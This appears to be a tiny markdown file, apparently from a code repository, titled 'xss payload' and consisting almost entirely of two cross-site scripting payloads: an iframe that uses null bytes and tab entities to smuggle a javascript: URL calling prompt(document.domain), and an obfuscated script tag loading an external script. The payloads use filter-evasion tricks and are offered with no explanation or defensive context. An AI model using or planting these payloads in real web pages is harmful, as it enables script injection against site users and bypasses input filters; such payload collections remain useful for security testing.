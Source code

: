 # xss payload

```
<iframe %00 src="&Tab;javascript:prompt(document.domain)&Tab;"%00>
<script/&Tab; src='https://github.com' /&Tab;></script>

```
